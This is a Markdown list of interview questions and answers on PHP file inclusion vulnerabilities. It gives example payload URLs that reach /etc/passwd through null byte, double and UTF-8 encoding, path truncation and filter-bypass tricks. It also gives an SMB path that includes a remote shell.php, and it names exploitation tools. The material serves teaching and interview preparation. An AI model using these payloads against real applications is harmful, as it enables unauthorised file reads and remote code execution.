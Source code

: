 # Advanced Interview Questions on File Inclusion

## 1. What is a File Inclusion Vulnerability and how does it pose a security threat to web applications?

**Answer**: A File Inclusion Vulnerability refers to a type of security vulnerability in web applications, particularly prevalent in applications developed in PHP, where an attacker can include a file, usually exploiting a lack of proper input/output sanitization. This vulnerability can lead to a range of malicious activities, including code execution, data theft, and website defacement. For example, if a PHP script includes a file based on user input without proper sanitization, an attacker could manipulate the input to include local or remote files.

---

## 2. How does Local File Inclusion (LFI) differ from Path Traversal?

**Answer**: Local File Inclusion (LFI) allows an attacker to include files from the local server, leading to the execution of arbitrary code, whereas Path Traversal (also known as Directory Traversal) allows an attacker to access files without executing them. Path Traversal exploits the reading mechanism to access files, while LFI exploits the inclusion mechanism, potentially leading to code execution.

---

## 3. How can null byte injection be used to exploit file inclusion vulnerabilities?

**Answer**: Null byte injection exploits a vulnerability in versions of PHP below 5.3.4, where a null byte (`%00`) can terminate a string prematurely. This can be used to bypass file extension checks. For example, if a PHP script tries to include a file with a `.php` extension, an attacker could append `%00` to the payload to bypass the check:
```
http://example.com/index.php?page=../../../etc/passwd%00
```

---

## 4. Explain the concept of double encoding and how it can be used in file inclusion attacks.

**Answer**: Double encoding involves applying URL encoding twice to a string, which can help bypass filters that decode URLs only once. For example, to include the `/etc/passwd` file, an attacker can use double encoding:
```
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
```
The application decodes it once to `%2e%2e%2fetc%2fpasswd`, and then a second time to `../etc/passwd`.

---

## 5. What is UTF-8 encoding and how can it be utilized in file inclusion attacks?

**Answer**: UTF-8 encoding represents characters using a variable number of bytes. Attackers can use UTF-8 encoding to obfuscate the payload and bypass input validation filters. For example, to include the `/etc/passwd` file, an attacker can encode the payload using UTF-8:
```
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
```
This encoding can evade filters that do not handle UTF-8 encoded characters properly.

---

## 6. Describe the path truncation technique and how it can be used to exploit file inclusion vulnerabilities.

**Answer**: Path truncation exploits a limitation in most PHP installations where filenames longer than 4096 bytes are cut off, and any excess characters are discarded. Attackers can use this technique to bypass certain security mechanisms by appending a large number of characters to the payload. For example:
```
http://example.com/index.php?page=../../../etc/passwd....................[ADD MORE]
```
The excess characters are truncated, and the file inclusion vulnerability is exploited.

---

## 7. What is Remote File Inclusion (RFI) and how does it differ from Local File Inclusion (LFI)?

**Answer**: Remote File Inclusion (RFI) is a vulnerability that occurs when an application includes a remote file, usually through user input, without proper validation or sanitization. RFI allows an attacker to include files from a remote server, leading to code execution. In contrast, Local File Inclusion (LFI) involves including files from the local server. RFI is generally prevented by disabling the `allow_url_include` directive in PHP.

---

## 8. How can attackers bypass the `allow_url_include` directive in PHP to exploit Remote File Inclusion vulnerabilities?

**Answer**: Even when `allow_url_include` is disabled, attackers can exploit RFI vulnerabilities on Windows systems using the SMB protocol. By creating a share open to everyone and writing a PHP code inside a file (e.g., `shell.php`), attackers can include the file using a URL like:
```
http://example.com/index.php?page=\\10.0.0.1\share\shell.php
```
This method bypasses the `allow_url_include` restriction by leveraging the SMB protocol.

---

## 9. What are some effective tools used for discovering and exploiting file inclusion vulnerabilities?

**Answer**:
- **P0cL4bs/Kadimus**: A tool to check and exploit LFI vulnerabilities.
- **D35m0nd142/LFISuite**: A fully automatic LFI exploiter and scanner.
- **kurobeats/fimap**: A Python tool to find, prepare, audit, exploit, and Google for local and remote file inclusion bugs in web applications.
- **lightos/Panoptic**: An open-source penetration testing tool that automates the search and retrieval of content from common log and config files through path traversal vulnerabilities.
- **hansmach1ne/LFImap**: A tool for discovering and exploiting LFI vulnerabilities.

---

## 10. Provide examples of encoding techniques that can be used to bypass filters in Local File Inclusion attacks.

**Answer**:
- **Null Byte Injection**:
  ```
  http://example.com/index.php?page=../../../etc/passwd%00
  ```
- **Double Encoding**:
  ```
  http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
  ```
- **UTF-8 Encoding**:
  ```
  http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
  ```
- **Path Truncation**:
  ```
  http://example.com/index.php?page=../../../etc/passwd....................[ADD MORE]
  ```
- **Filter Bypass**:
  ```
  http://example.com/index.php?page=....//....//etc/passwd
  ```

These techniques help attackers evade security filters and successfully exploit LFI vulnerabilities.
